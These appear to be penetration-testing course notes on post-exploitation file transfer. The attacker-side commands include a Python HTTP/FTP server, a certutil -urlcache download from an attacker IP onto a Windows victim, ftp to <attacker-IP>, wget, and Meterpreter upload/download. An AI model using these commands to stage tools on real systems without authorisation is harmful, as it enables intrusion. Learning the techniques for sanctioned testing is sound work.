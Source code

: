 

### **File Transfers - Summary and Methods**

1. **Typical Setup for Hosting Files (Attacker Perspective)**:
    - Use Python to host files via a simple HTTP server:
        
        ```Shell
        python -m http.server 80
        ```
        
    - Retrieve files on the victim machine (Windows):
        - Use `CertUtil` to download files.
            
            ```Bash
            certutil.exe -urlcache -f http://10.10.10.10/file.txt file.txt
            ```
            
        - Navigate directly to the hosted file's address using a browser.
2. **Alternatives if** `**CertUtil**` **or Other Methods are Blocked**:
    - **FTP**:
        - Host an FTP server on the attacker's machine:
            
            ```Shell
            python -m pyftpdlib -p 21
            ```
            
        - Access the attacker-hosted FTP server from the Windows machine:
            
            ```Shell
            ftp <attacker-IP>
            ```
            
3. **File Retrieval Methods**:
    - **Linux**:
        - Use `wget` to fetch files:
            
            ```Shell
            wget <URL>
            ```
            
    - **Metasploit**:
        - Use the upload/download feature with a Meterpreter shell for easy file transfer.
4. **Key Notes**:
    - In post-exploitation scenarios:
        - **Common Approach**: Host a file on an HTTP/FTP server and retrieve using available tools.
        - Linux: Simplified via `wget`.
        - For Meterpreter, use native `upload/download` commands for efficiency.
5. **Review & Practice**:
    - These methods are critical for post-exploitation workflows.
    - Refer back to the mid-course capstone to reinforce and practice file transfer strategies.

---